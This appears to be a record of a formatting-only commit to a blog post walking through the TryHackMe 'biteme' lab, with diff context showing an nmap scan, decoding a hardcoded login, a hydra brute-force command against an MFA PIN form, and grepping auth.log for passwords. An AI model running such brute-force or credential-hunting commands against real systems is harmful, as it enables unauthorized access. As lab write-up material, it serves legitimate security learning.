

Before and after one commit to blackninja23/blackninja23.github.io, a Jekyll site: the page built from _posts/biteme-THM/2022-08-24-biteme THM.md, in a window 1280 px wide and 900 px high, scrolled down 353 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2022-08-24-biteme THM.md

````diff
--- a/_posts/biteme-THM/2022-08-24-biteme THM.md
+++ b/_posts/biteme-THM/2022-08-24-biteme THM.md
@@ -9,6 +9,7 @@
 # biteme tryhackme
 # Enumeration
 **port scan**
+
 *Starting off with scanning ports*
 ```
 nmap -sC -sV -v 10.10.50.109 -oN nmaptop1000.txt
@@ -40,7 +41,6 @@
 80/tcp open  http
 
 ```
-
 *ports which are open are 22,80*
 
 # port 22 enumeration
@@ -193,6 +193,7 @@
 - `functions.php`
 - `securimage/securimage.php`
 - `mfa.php`
+
 **Checking functions.phps**
 ```
 <?php
@@ -213,7 +214,9 @@
 
 ## Understand functions.phps
 **Understanding is_valid_user**
+
 *Check function of is_valid_user, see clearly that our <a href="https://www.php.net/manual/en/function.bin2hex.php">function bin2hex</a> used to convert our parameter to hexadecimal and compared to LOGIN_USER in which its value is 6a61736f6e5f746573745f6163636f756e74*
+
 **Decode it**
 ```
 └─$ php -a
@@ -227,6 +230,7 @@
 *we got jason_test_account as user used to compared*
 
 **Understanding is_valid_pwd**
+
  *our parameter got hashed to md5 and return with substr.*
  *Understand what substr is doing, we can use php interactive shell*
  ```
@@ -304,6 +308,7 @@
 
 ```
 **Bruteforce**
+
 *Use hydra to bruteforce for pins*
 ```
 hydra -l jason_test_account -P pin.txt 10.10.109.19 http-post-form "/console/mfa.php:code=^PASS^:Incorrect code:H=Cookie: PHPSESSID=ctmklmsqs2q5sg90f81gt2a8qr; user=jason_test_account; pwd=violet" -V
@@ -403,7 +408,9 @@
 
 ## ROOT PRIVILEDGE
 *I will give short brief but you can try tool like linpeas*
+
 **check groups**
+
 ```
 jason@biteme:~$ id
 uid=1000(jason) gid=1000(jason) groups=1000(jason),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)
@@ -414,6 +421,7 @@
 since we are in group of adm, it mean that we can read logs
 
 **Checking auth.log**
+
 *Reading auth.log since we are in a group of adm*
 ```
 jason@biteme:/var/log$ cat /var/log/auth.log|grep -a  pass
@@ -563,4 +571,4 @@
 
 Greeting from <a href="https://twitter.com/blackninja233">blackninja23</a>
 
-<img src="/assets/img/bitemeTHM/throw.gif" alt="" width="500" height="600">
+<img src="/assets/img/bitemeTHM/throw.gif" alt="">
````
